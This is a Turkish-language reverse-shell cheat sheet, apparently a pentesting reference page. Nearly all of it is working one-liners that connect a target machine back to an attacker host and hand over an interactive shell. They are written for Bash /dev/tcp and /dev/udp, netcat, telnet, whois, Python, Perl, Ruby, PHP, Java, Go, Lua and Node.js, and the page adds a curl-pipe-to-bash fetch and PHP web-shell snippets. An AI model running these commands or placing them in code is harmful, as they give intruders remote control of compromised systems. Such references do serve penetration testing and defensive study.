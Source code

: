 ## Bash | sh
```bash
curl https://reverse-shell.sh/10.0.0.1:3000 | bash
```

```bash
bash -i >& /dev/tcp/<SALDIRGAN-IP>/<PORT> 0>&1 # TCP
```

```bash
bash -i >& /dev/udp/<SALDIRGAN-IP>/<PORT> 0>&1 # UDP
```

```bash
0<&196;exec 196<>/dev/tcp/<SALDIRGAN-IP>/<PORT>; sh <&196 >&196 2>&196
```

```bash
exec 5<>/dev/tcp/<SALDIRGAN-IP>/<PORT>; while read line 0<&5; do $line 2>&5 >&5; done
```

## Symbol
```bash
bash -c 'bash -i >& /dev/tcp/<SALDIRGAN-IP>/<PORT> 0>&1'
```

### Açıklama
- `bash -i`: Komutun bu kısmı etkileşimli (-i) bir Bash shell başlatır.
- `>&`: Komutun bu kısmı **hem standart çıktıyı** (`stdout`) hem de **standart hatayı** (`stderr`) **aynı hedefe** yönlendirmek için kullanılan bir kısaltmadır.
- `/dev/tcp/<SAKDIRGAN-IPSI>/<PORT>`: Bu, belirtilen IP adresi ve porta bir TCP bağlantısını temsil eder.
- `0>&1`: Komutun bu kısmı standart girdiyi (`stdin`) standart çıktı (`stdout`) ile aynı hedefe yönlendirir.

## Netcat
```bash
nc -e /bin/sh <SALDIRGAN-IP> <PORT>
```

```bash
nc <SALDIRGAN-IP> <PORT> | /bin/sh
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <SALDIRGAN-IP> <PORT> >/tmp/f
```

```bash
nc <SALDIRGAN-IP> <PORT1>| /bin/bash | nc <SALDIRGAN-IP> <PORT2>
```

```bash
rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | nc <SALDIRGAN-IP> <PORT> 1>/tmp/bkpipe
```

## Telnet
```bash
telnet <SALDIRGAN-IP> <PORT> | /bin/sh
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet <SALDIRGAN-IP> <PORT> >/tmp/f
```

```bash
telnet <SALDIRGAN-IP> <PORT> | /bin/bash | telnet <SALDIRGAN-IP> <PORT>
```

```bash
rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | telnet <SALDIRGAN-IP> <PORT> 1>/tmp/bkpipe
```

## Whois
- Saldırgan Makine
```bash
while true; do nc -l <port>; done
```

- Hedef Makine
```bash
export X=Connected; while true; do X=`eval $(whois -h <IP> -p <Port> "Output: $X")`; sleep 1; done
```

## Python
```bash
# Linux
export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
# IPv6
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 
```

## Perl
```bash
perl -e 'use Socket;$i="<SALDIRGAN-IP>";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IPADDR]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Ruby
```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

```bash
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## PHP
```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```php
<?php $sock=fsockopen("10.0.0.1",1234);$proc=proc_open("/bin/sh -i",array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>
```

```php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.0.0.1/4444 0>&1'"); ?>
```

## Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Golang
```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.0.134:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

## Lua
- Linux:
```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
- Windows:
```bash
lua5.1 -e 'local host, port = "127.0.0.1", 4444 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, 'r') local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

## Node.JS
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

```js
require('child_process').exec('nc -e /bin/sh [IPADDR] [PORT]')
require('child_process').exec("bash -c 'bash -i >& /dev/tcp/10.0.0.1/6767 0>&1'")
```
